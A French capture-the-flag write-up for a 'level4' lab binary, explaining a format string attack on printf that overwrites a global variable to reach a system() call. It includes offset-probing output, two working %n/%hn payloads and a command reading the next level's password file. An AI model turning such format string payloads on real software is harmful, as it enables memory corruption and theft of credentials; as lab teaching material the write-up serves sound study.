 # level4 - Format String Exploitation Avancée

## Analyse du Programme

**Structure**
- Fonction `n()` contenant une comparaison avec `0x1025544`
- Variable à modifier à l'adresse `0x8049810`
- Appel à `printf()` vulnérable dans la fonction `p()`

**Points d'Intérêt**
- Valeur cible: `0x1025544` (16930116 en décimal)
- Comparaison critique: `cmp $0x1025544,%eax`
- Exécution de `system()` si la comparaison réussit

## Méthodes d'Exploitation

- Pour obtenir l'offset on peut envoyer des %x a fgets ou on peut envoyer 4 bytes ('AAAA') suivi de %1$x en augmentant la valeur jusqu'a retrouver les 'A'.
```nasm
./level4 
AAAA %x %x %x %x %x %x %x %x %x %x %x %x
AAAA b7ff26b0 bffff694 b7fd0ff4 0 0 bffff658 804848d bffff450 200 b7fd1ac0 b7ff37d0 41414141
```
- On sait maintenant qu'on modifie la stack a partir du 12eme argument de printf
- Comme pour l'exercice precedent on va vouloir modifier la variable a 0x1025544 pour acceder a l'appel system()

**Approche Simple**
```bash
(python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' ; cat) | ./level4
```

**Approche Optimisée**
```bash
(python -c 'print "\x12\x98\x04\x08" + "\x10\x98\x04\x08" + "%250d" + "%12$hn" + "%21570d" + "%13$hn"'; cat) | ./level4
```

L'approche optimisée: 
- Permet de separer les 4 bytes de l'int en 2 (separant les bits de poids faibles et les bits de poids fort), reduisant consirablement le nombre a ecrire via stdin
1. Écrit `0x5544` à l'adresse `0x8049810`
2. Écrit `0x0102` à l'adresse `0x8049812`
3. Utilise `%hn` pour écrire 2 bytes à la fois

**Obtention du Flag**
```bash
cat /home/user/level5/.pass
```

Cette exploitation modifie la valeur en mémoire pour déclencher l'appel à `system()`.
